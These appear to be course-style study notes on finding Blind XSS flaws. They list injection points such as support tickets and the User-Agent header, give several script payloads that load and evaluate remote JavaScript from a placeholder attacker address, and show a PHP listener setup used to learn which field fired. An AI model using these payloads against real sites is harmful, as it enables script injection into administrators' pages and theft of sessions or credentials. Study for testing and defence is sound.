


1. Blind XSS Detection
What is a Blind XSSBlind XSS is a type of cross site scripting (XSS), where the attacker “blindly” deploy a payload on a web page that will save it to a persistent state (like in a database, or in a log file).
The payload is going to be triggered only when the attacker’s input (stored by the web server) is executed as a malicious script in another part of the application (usually a page we don't have access to) or another application.
Input that usually trigger a Blind XSSBlind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins)
Input that could trigger a Blind XSS:
◇ Contact Forms
◇ Reviews
◇ User Details
◇ Support Tickets
◇ HTTP User-Agent header
Notes the responses from the serverBelow, responses from the browser that can indicate that our input will be handled by the Admin in a page we do not have access to.
how to detect a Blind XSS vulnerability if we cannot see how the output is handled?We can use a JavaScript payload that sends an HTTP request back to our server.
If the JavaScript code gets executed, we will get a response on our machine, and we will know that the page is indeed vulnerable.
However, this introduces two issues:
1. How can we know which specific field is vulnerable? Since any of the fields may execute our code, we can't know which of them did.
2. How can we know what XSS payload to use? Since the page may be vulnerable, but the payload may not work?
Load a Remote Script
• In HTML, with JavaScript we can include a remote script by providing its URL.
<script src="http://OUR_IP/script.js"></script>
• As script name we can use the name of the field that we are targeting, such that when we get the request on the attacker machine, we can identify the vulnerable input field that executed the script:
<script src="http://OUR_IP/[INPUT_FIELD].js"></script>
we can also not use the extension .js if we think that this could trigger a WAF
• Payloads from:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss To detect if a field is vulnerable we can use one of the following payload:
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\'); a.src=\'http://OUR_IP\';document.body.appendChild(a)')<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script><script>$.getScript("http://OUR_IP")</script> It need to be between <script> because we need with this parameter to call a javascript file on the attacker machine (at point 2)
1. Start a Listener before start sending test payloads, using netcat or php.
As we have done in the section:
Phishing → Login Form Injection → Set Up Listener to Steal the Credentials mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
2. Send Test Payloads to check which parameter is vulnerable to Blind XSS
<script src=http://OUR_IP/[INPUT_FIELD_1]></script>
<script src=http://OUR_IP/[INPUT_FIELD_2]></script>
<script src=http://OUR_IP/[INPUT_FIELD_...]></script>
◇
How reduce the number of potentially vulnerable input fields we need to test:
▪ email field → usually must match an email format. We could try to bypass the client side validation, but usually the validation is done both on the front-end and the back-end.
▪ password field → passwords are usually hashed and not usually shown in cleartext
3. For every payload sent, check the listener to see if anything called our server.
Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.
 give an orange 404 error because we still not have created a index.php file on the attacker machine, but we had a connection with our attacker machine!